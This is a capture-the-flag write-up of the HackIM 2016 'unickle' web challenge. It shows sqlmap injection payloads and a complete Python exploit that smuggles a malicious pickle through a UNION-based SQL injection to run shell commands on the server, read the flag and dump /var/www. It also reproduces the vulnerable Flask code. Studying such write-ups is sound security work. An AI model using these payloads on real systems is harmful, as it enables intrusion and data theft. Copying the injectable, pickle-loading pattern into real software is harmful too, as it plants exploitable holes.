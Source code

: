 ```yaml
---
layout: post
title:  "hackim 2016: unickle (web 200)"
author: f0rki
categories: writeup
---
```


* **Category:** web
* **Points:** 200
* **Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get
> rid of the hassle of managing your own storage for object with Osaas. Unickle
> currently offers a beta version that demonstrates how OSaaS will make the
> internet a better place... One object at a time!!

## Write-up

So there isn't much to look at here. It displays some values and you can
restrict the displayed values to a category with the `?cat=X` parameter. After
some fiddling and not getting anywhere I decided to let `sqlmap` loose on the
site.

```
$ python2 sqlmap.py --level=5 --risk=3 --method=get -a \
    -u 'http://54.84.124.93/?cat=2' --output-dir=/tmp/unickle/

sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 7804=7804

    Type: AND/OR time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: cat=2 AND 9875=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: cat=2 UNION ALL SELECT 'qxvqq'||'HuGRpkqXfbsleivzlVQsmTJGEQszicEaMDqmwMEK'||'qbvzq',NULL,NULL,NULL-- -
---

[...]

Table: db_object
[4 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| tcat_id | INTEGER |
| tid     | INTEGER |
| tname   | VARCHAR |
| tvalue  | VARCHAR |
+---------+---------+
```

sqlmap didn't do so well on dumping the actual tables, probably because there
were some non-printable characters in there. At this point I was kind of
annoyed and switched to another challenge. Fortunately a fellow LosFuzzys
member didn't want to realy on sqlmap and did the injection by hand, which
yielded better results. One can abuse the SQL injection by using `?cat=4 union
select ...` as the parameter. We can get the table schema of the `db_object`
table.  This is the table the objects, which are displayed, are selected from.
Let's look at one row of the database.

```
id | name     | value                                                               | cat_id
--------------------------------------------------------------------------------------------
2  | Object 2 | cvulnerableBoxq)q}qXnameqX        Magic Boxqsb. | 2
```

We can see that value has a very strange format and doesn't quite match what we
see as output. So there is apparently some transformation happeing. It turns
out that this is [pickled](https://docs.python.org/2/library/pickle.html) data.
Of course as we know from countless other CTFs, pickle is evil, as it allows
arbitrary code execution as part of the deserialization. So we can use the SQL
injection to get the application to load our input with pickle, which gives us
code execution on the server :) Kindly enough we also get the deserialized
object as string, so we can use `subprocess.check_output` to get the output of
arbitrary commands. I used the following script to exploit the sqli/pickle
vulnerabilities. I used several shellcodes. First using a simple computation to
prove we have code execution. Then I searched for the flag using the `find`
command and read it out using `cat`. I also dumped the whole `/var/www/`
directory just to be sure ;)


```python
from __future__ import print_function

import requests
import sys
import pickle
from urllib import unquote

# test shellcode
#SHELLCODE = "42 + 1"
# fetch the whole webserver dir :)
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"tar czf /tmp/src.tgz /var/www/; cat /tmp/src.tgz | base64\", shell=True))"  # NOQA
# find the flag
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"find / -name flag\", shell=True))"  # NOQA
# read the flag
SHELLCODE = "str(__import__(\"subprocess\").check_output(\"cat /var/www/flag\", shell=True))"  # NOQA


class Pwn(object):
    def __reduce__(self):
        return (eval, (SHELLCODE,))


pwn = Pwn()
sc = pickle.dumps(pwn)

if len(sys.argv) == 2 and sys.argv[1] == "--try":
    print("Executing shellcode:")
    print("-------")
    try:
        print(pickle.loads(sc))
    except Exception as e:
        print("exception", repr(e))
    print("\n-------")


print("Sending shellcode:")
print("-------")
print(sc)
print("-------")
sc = sc.replace("'", "\"")  # otherwise the sql query doesn't work
sqlipl = "4 union select 1,2,'{}',1337".format(sc)
print("#### sqli payload is")
print(sqlipl)
resp = requests.get("http://54.84.124.93/", params={"cat": sqlipl})
print("#### URL is")
print(resp.url)
print(unquote(resp.url))
print("#### response -", resp.status_code)
#print(resp.text)
# very dirty parsing ;)
print(resp.text.split("\n")[38].replace("\\n", "\n").strip())
```

The flag was `flag{OSaaS_with_union_and_tickle_trend_it_is!}`

The whole thing was a flask application and the vulnerable code is this:

```python
@application.route("/", methods=['GET'])
def index():
  sql = "SELECT * FROM db_object"
  if request.args != [] and request.args.get('cat') != None:
    sql = "SELECT * FROM db_object where cat_id="+request.args.get('cat')  # SQL injection here
  result = db.engine.execute(sql)
  objects = []
  for row in result:
    val = row[2]
    if row[2]!= None:
      try:
        print(row[2])
        val = pickle.loads(row[2].encode(encoding='ISO-8859-1'))           # pickle deserialization vulnerability here
      except Exception as e:
        val = e
    objects.append([row[0],row[1],val,row[3]])
  return render_template('index.html', objects=objects)
```
